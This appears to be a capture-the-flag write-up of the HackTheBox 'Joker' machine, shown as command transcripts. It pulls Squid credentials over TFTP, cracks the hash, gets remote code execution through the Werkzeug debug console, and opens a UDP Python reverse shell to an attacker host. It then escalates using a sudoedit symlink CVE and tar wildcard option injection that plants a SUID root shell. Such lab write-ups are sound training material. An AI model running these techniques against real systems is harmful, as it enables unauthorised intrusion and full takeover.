

# Target
| Category          | Details                                                                                                                    |
|-------------------|----------------------------------------------------------------------------------------------------------------------------|
| 📝 **Name**       | [Joker](https://app.hackthebox.com/machines/Joker)                                                                         |  
| 🏷 **Type**       | HTB Machine                                                                                                                |
| 🖥 **OS**         | Linux                                                                                                                      |
| 🎯 **Difficulty** | Hard                                                                                                                       |
| 📁 **Tags**       | Squid, proxy, tftp, Werkzeug console, shell stabilisation, [CVE-2015-5602](https://nvd.nist.gov/vuln/detail/CVE-2015-5602) |

### User flag

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-27 09:45 +0100
Nmap scan report for 10.129.1.116
Host is up (0.039s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (ED25519)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.32 seconds
```

#### Try to access target loopback interface over `Squid` proxy
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ curl -I --proxy http://$TARGET:3128 http://127.0.0.1/       
HTTP/1.1 407 Proxy Authentication Required
Server: squid/3.5.12
Mime-Version: 1.0
Date: Sun, 01 Mar 2026 10:00:59 GMT
Content-Type: text/html;charset=utf-8
Content-Length: 3519
X-Squid-Error: ERR_CACHE_ACCESS_DENIED 0
Vary: Accept-Language
Content-Language: en
Proxy-Authenticate: Basic realm="kalamari"
X-Cache: MISS from joker
X-Cache-Lookup: NONE from joker:3128
Via: 1.1 joker (squid/3.5.12)
Connection: keep-alive
```
The proxy returned an HTTP 407 response, which means authentication is required. Since we were unable to find any exploits for Squid 3.5.12, we need to investigate further to obtain valid credentials.

#### Scan UDP ports
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ nmap -sU --top-ports 200 $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-01 11:05 +0100
Nmap scan report for 10.129.1.116
Host is up (0.028s latency).
Not shown: 197 closed udp ports (port-unreach)
PORT     STATE         SERVICE
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
5355/udp open|filtered llmnr

Nmap done: 1 IP address (1 host up) scanned in 224.41 seconds
```
It appears that TFTP is running on the target. We could attempt to exfiltrate the Squid configuration file and any stored passwords using it. Since TFTP does not support directory listing, we would need to search for files blindly.

#### Access TFTP
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ tftp $TARGET 
tftp> get squid.conf
tftp> get passwords
```

#### Read `squid.conf`
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ sed -e 's/#.*//' -e '/^[[:space:]]*$/d' squid.conf                                                                                                                                  
acl SSL_ports port 443
acl Safe_ports port 80
acl Safe_ports port 21
acl Safe_ports port 443
acl Safe_ports port 70
acl Safe_ports port 210
acl Safe_ports port 1025-65535
acl Safe_ports port 280
acl Safe_ports port 488
acl Safe_ports port 591
acl Safe_ports port 777
acl CONNECT method CONNECT
http_access deny !Safe_ports
http_access deny CONNECT !SSL_ports
http_access deny manager
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords
auth_param basic realm kalamari
acl authenticated proxy_auth REQUIRED
http_access allow authenticated
http_access deny all
http_port 3128
coredump_dir /var/spool/squid
refresh_pattern ^ftp:           1440    20%     10080
refresh_pattern ^gopher:        1440    0%      1440
refresh_pattern -i (/cgi-bin/|\?) 0     0%      0
refresh_pattern (Release|Packages(.gz)*)$      0       20%     2880
refresh_pattern .               0       20%     4320
```

#### Read `passwords`
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ cat passwords 
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
```

#### Crack password for user `kalamari`
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passwords
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihateseafood     (kalamari)     
1g 0:00:02:11 DONE (2026-03-01 11:21) 0.007624g/s 55806p/s 55806c/s 55806C/s ihatetiff..ihatepz
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Retry to access target loopback interface over `Squid` proxy using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ curl -I --proxy http://$TARGET:3128 --proxy-user kalamari:ihateseafood http://127.0.0.1/
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 899
Server: Werkzeug/0.10.5-dev Python/2.7.12+
Date: Sun, 01 Mar 2026 10:24:12 GMT
X-Cache: MISS from joker
X-Cache-Lookup: MISS from joker:3128
Via: 1.1 joker (squid/3.5.12)
Connection: keep-alive
```
A brief analysis of the web application running on Werkzeug at `http://127.0.0.1:80` indicates that it is some kind of Python-based URL shortening application. Since we did not identify any SSTI vulnerabilities, we will proceed with further web enumeration. 

#### Start `mitmdump` to add proxy authentication header
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ mitmdump \
  --mode upstream:http://$TARGET:3128 \
  --listen-port 7070 \
  --set upstream_auth=kalamari:ihateseafood
[11:43:53.051] HTTP(S) proxy (upstream mode) listening at *:7070.
<SNIP>
```

#### Enumerate web application 
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ feroxbuster --url http://127.0.0.1 -p 127.0.0.1:7070 -w /usr/share/wordlists/dirb/big.txt -x php,html,js,png,jpg,py,txt,log -C 404
<SNIP>
200      GET       34l      131w     1479c http://127.0.0.1/console
<SNIP>
``` 
We have discovered Werkzeug `/console` enabled on target.

#### Confirm Werkzeug is available
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ curl -x http://127.0.0.1:7070 http://127.0.0.1/console
<SNIP>
    <title>Console // Werkzeug Debugger</title>
<SNIP>
    <script type="text/javascript">
      var TRACEBACK = -1,
          CONSOLE_MODE = true,
          EVALEX = true,
          SECRET = "zRcvVNpmOXYsEbRX24jo";
    </script>
<SNIP>
```
With Werkzeug console enabled we basically have RCE ability.

#### Confirm RCE
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ CMD=$(echo -n "import os;print(os.popen('id').read())" | jq -sRr @uri)
curl -s -x http://127.0.0.1:7070 "http://127.0.0.1/console?__debugger__=yes&cmd=$CMD&frm=0&s=zRcvVNpmOXYsEbRX24jo"
>>> import os;print(os.popen('id').read())
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
```

#### Prepare `cmd.sh` exploit
```
{ cat <<'EOF'> cmd.sh
CMD=$(echo -n "import os;print(os.popen('$1 2>&1').read())" | jq -sRr @uri)
curl -s -x http://127.0.0.1:7070 "http://127.0.0.1/console?__debugger__=yes&cmd=$CMD&frm=0&s=zRcvVNpmOXYsEbRX24jo" | tail -n +2
EOF
} && chmod +x cmd.sh
```

#### Confirm exploit works
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ ./cmd.sh "ping -c 4 10.10.16.16"
PING 10.10.16.16 (10.10.16.16) 56(84) bytes of data.
64 bytes from 10.10.16.16: icmp_seq=1 ttl=63 time=145 ms
64 bytes from 10.10.16.16: icmp_seq=2 ttl=63 time=34.6 ms
64 bytes from 10.10.16.16: icmp_seq=3 ttl=63 time=140 ms
64 bytes from 10.10.16.16: icmp_seq=4 ttl=63 time=28.7 ms

--- 10.10.16.16 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 28.769/87.524/145.945/55.891 ms
```

We have also confirmed (ICMP) connectivity. However, simple `curl` test shows that TCP traffic might be filtered out.
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ ./cmd.sh 'curl --connect-timeout 2 http://10.10.16.16' 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:--     0
curl: (28) Connection timed out after 2000 milliseconds
```

#### Start `nc` in UDP mode to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ nc -u -lvnp 4444
listening on [any] 4444 ...
```

#### Spawn UDP reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ CMD=$(echo -n "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect(('10.10.16.16',4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('/bin/bash')" | jq -sRr @uri)
curl -s -x http://127.0.0.1:7070 "http://127.0.0.1/console?__debugger__=yes&cmd=$CMD&frm=0&s=zRcvVNpmOXYsEbRX24jo"
```

#### Confirm foothold gained
```
connect to [10.10.16.16] from (UNKNOWN) [10.129.1.116] 60183
werkzeug@joker:~$ id
id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
```

#### Stabilise shell
```
werkzeug@joker:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
werkzeug@joker:~$ ^Z
zsh: suspended  nc -u -lvnp 4444
                             
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ stty raw -echo ; fg
[1]  + continued  nc -u -lvnp 4444
                                  export TERM=screen-256color
werkzeug@joker:~$ export SHELL=bash
werkzeug@joker:~$ stty rows 29 cols 135
werkzeug@joker:~$ reset
```

#### List allowed `sudo` commands
```
werkzeug@joker:~$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```
`sudoedit` on a path containing multiple `*` may be vulnerable to [CVE-2015-5602](https://nvd.nist.gov/vuln/detail/CVE-2015-5602), which allows an attacker to replace the specified file with a symlink to an arbitrary file they wish to overwrite.

#### Generate RSA key pair
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ ssh-keygen -q -t rsa -b 1024 -f id_rsa -N "" -C "$RANDOM@$RANDOM.net" && cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAAgQDa/EWdOWQp2pp+JztIf8eWV2EPrxXzcnQLhYeQwEPRTSWVy9pJ6WcMaRmr23iM5cWXNRo8gn5GEcvU6jywxZLyhLHO0gEPlVDabPBoda+yVwO9lV8RnigwGdpjWvhebC1uwOPk9QJUgDyyo6LkHsXV8gXfFgzgIg3ppat3otAa4w== 7436@27151.net
```

#### Exploit [CVE-2015-5602](https://nvd.nist.gov/vuln/detail/CVE-2015-5602) to write to `/home/alekos/.ssh/authorized_keys`
```
werkzeug@joker:~$ mkdir /var/www/testing/pe && \
ln -s /home/alekos/.ssh/authorized_keys /var/www/testing/pe/layout.html && \
sudoedit -u alekos /var/www/testing/pe/layout.html
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue
```

Paste generated public key and save and exit.



#### Access target over SSH as user `alekos` using generated private key
```
┌──(magicrc㉿perun)-[~/attack/HTB Joker]
└─$ ssh -i id_rsa alekos@$TARGET                                                           
<SNIP>
alekos@joker:~$ id
uid=1001(alekos) gid=1001(alekos) groups=1001(alekos),1000(werkzeug)
```

#### Capture user flag
```
alekos@joker:~$ cat /home/alekos/user.txt 
2dcffe60b309e6d62609bc4b97986b40
```

### Root flag

#### Discover `/root/backup.sh` being periodically run by `root`
```
2026/03/01 18:10:01 CMD: UID=0     PID=2666   | date +%s 
2026/03/01 18:10:01 CMD: UID=0     PID=2665   | /bin/sh /root/backup.sh 
2026/03/01 18:10:01 CMD: UID=0     PID=2664   | /bin/sh -c /root/backup.sh 
2026/03/01 18:10:01 CMD: UID=0     PID=2663   | /usr/sbin/CRON -f 
2026/03/01 18:10:01 CMD: UID=0     PID=2667   | 
2026/03/01 18:10:01 CMD: UID=0     PID=2668   | chown root:alekos /home/alekos/backup/dev-1772381401.tar.gz
```
This script seems to create `.tar` archive and store in `/home/alekos/backup`.

#### Analyze archive created by `/root/backup.sh`
```
alekos@joker:~$ tar -tf /home/alekos/backup/dev-1772381401.tar.gz
__init__.py
application.py
data/
data/shorty.db
models.py
static/
static/style.css
templates/
templates/layout.html
templates/not_found.html
templates/list.html
templates/display.html
templates/new.html
utils.py
views.py
```

We can see that `/root/backup.sh` is creating archive for `/home/alekos/development/`
```
alekos@joker:~$ ls -la /home/alekos/development/
total 36
drwxr-x--- 5 alekos alekos 4096 May 18  2017 .
drwxr-xr-x 7 alekos alekos 4096 Mar  1 18:07 ..
-rw-r----- 1 alekos alekos 1452 May 18  2017 application.py
drwxrwx--- 2 alekos alekos 4096 May 18  2017 data
-rw-r----- 1 alekos alekos    0 May 18  2017 __init__.py
-rw-r----- 1 alekos alekos  997 May 18  2017 models.py
drwxr-x--- 2 alekos alekos 4096 May 18  2017 static
drwxr-x--- 2 alekos alekos 4096 May 18  2017 templates
-rw-r----- 1 alekos alekos 2500 May 18  2017 utils.py
-rw-r----- 1 alekos alekos 1748 May 18  2017 views.py
```

We do not have permissions to read `/root/backup.sh`, but we could assume tar option injection vulnerability due incorrectly used `*`.

#### Try to exploit tar option injection vulnerability to spawn root shell
```
echo "/bin/cp /bin/bash /tmp/root_shell && /bin/chmod +s /tmp/root_shell" > /home/alekos/development/root_shell.sh && chmod +x /home/alekos/development/root_shell.sh && \
touch '/home/alekos/development/--checkpoint=1' && \
touch '/home/alekos/development/--checkpoint-action=exec=sh root_shell.sh'
```

#### Use `/tmp/root_shell` to escalate to `root` user
```
alekos@joker:~$ /tmp/root_shell -p
root_shell-4.3# id
uid=1001(alekos) gid=1001(alekos) euid=0(root) egid=0(root) groups=0(root),1000(werkzeug),1001(alekos)
```

#### Captrue root flag
```
root_shell-4.3# cat /root/root.txt 
a8e7420841b4127a6423538b4377100f
```
